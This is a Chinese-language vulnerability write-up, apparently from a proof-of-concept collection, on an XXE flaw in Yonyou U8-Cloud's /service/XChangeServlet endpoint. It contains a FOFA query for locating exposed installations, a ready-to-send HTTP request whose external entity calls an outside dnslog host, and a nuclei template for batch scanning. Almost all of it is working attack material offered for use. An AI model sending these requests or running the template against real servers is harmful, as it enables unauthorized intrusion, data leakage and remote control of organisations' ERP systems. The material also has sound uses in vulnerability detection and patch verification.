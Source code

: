 **漏洞名称**

用友U8-Cloud XChangeServlet XXE漏洞

**漏洞影响**

用友U8-Cloud 版本不详

**漏洞描述**

用友U8 cloud 聚焦成长型、创新型企业的云 ERP，基于全新的企业互联网应用设计理念，为企业提供集人财物客、产供销于一体的云 ERP 整体解决方案，全面支持多组织业务协同、智能财务，人力服务、构建产业链智造平台，融合用友云服务实现企业互联网资源连接、共享、协同。该系统/service/XChangeServlet接口存在XXE漏洞，攻击者可以在xml中构造恶意命令，会导致服务器数据泄露以及被远控。

**FOFA搜索语句**

app="用友-U8-Cloud"

**漏洞复现**

借助http://dnslog.pw/dns/进行复现

```yaml
POST /service/XChangeServlet HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Content-Type: text/xml
Connection: close
 
<!DOCTYPE r [<!ELEMENT r ANY ><!ENTITY xxe SYSTEM "http://farr9frh.dnslog.pw">]><r><a>&xxe;</a ></r>
```

批量

```yaml

id: yonyou-u8-cloud-XChangeServlet-xxe

info:
  name: 用友U8-Cloud XChangeServlet XXE漏洞
  author: fgz
  severity: critical
  description: 用友U8 cloud 聚焦成长型、创新型企业的云 ERP，基于全新的企业互联网应用设计理念，为企业提供集人财物客、产供销于一体的云 ERP 整体解决方案，全面支持多组织业务协同、智能财务，人力服务、构建产业链智造平台，融合用友云服务实现企业互联网资源连接、共享、协同。该系统/service/XChangeServlet接口存在XXE漏洞，攻击者可以在xml中构造恶意命令，会导致服务器数据泄露以及被远控。
  metadata:
    max-request: 1
    fofa-query: app="用友-U8-Cloud"
    verified: true
requests:
  - raw:
      - |+
        POST /service/XChangeServlet HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
        Content-Type: text/xml
        Connection: close
        
        <!DOCTYPE r [<!ELEMENT r ANY ><!ENTITY xxe SYSTEM "http://{{interactsh-url}}">]><r><a>&xxe;</a ></r>
        

    matchers:
      - type: dsl
        dsl:
          - contains(interactsh_protocol, "dns")
        condition: and
```

